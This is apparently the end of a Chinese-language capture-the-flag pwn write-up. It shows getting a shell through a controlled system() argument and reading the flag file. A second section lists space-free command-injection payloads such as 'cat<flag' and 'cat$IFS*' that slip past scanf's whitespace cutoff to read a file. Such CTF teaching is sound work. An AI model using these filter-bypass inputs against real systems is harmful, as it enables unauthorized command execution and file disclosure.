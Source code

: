 ```
shsh
```
![51](https://pic.imgdb.cn/item/6149d7ee2ab3f51d914170fb.png)

```
ls   查看目录
```

![52](https://pic.imgdb.cn/item/6149d7fc2ab3f51d914187ed.png)

```
cat flag   打印flag文件内容
```

![53](https://pic.imgdb.cn/item/6149d8082ab3f51d91419ba4.png)
flag就是`flag{biubiubiubiubiubiubiubiu}`

##### ** 其他解法

有大师傅给了不一样的思路

对于比赛中的pwn题来说，其实我们最终需要的只是flag文件里的字符串，拿到shell可以很方便的读出这个字符串，然而就算不拿shell我们还是有办法将文件泄露出来，比如orw，可以自行百度

对于这题，给了我们控制system函数参数的权利，其实也就相当于给了shell

我们可以直接执行system("cat flag")来读取flag

但是scanf读取到空格就会结束，所以还需要绕过一下

payload：

```
cat<flag
cat$IFS*
od<flag
nl<flag
pg<flag
dd<flag
sh<flag
……
```

原理就不解释了，可以自己查有关这些指令和符号的介绍

最上面两个不易成功，可以自己研究研究是为什么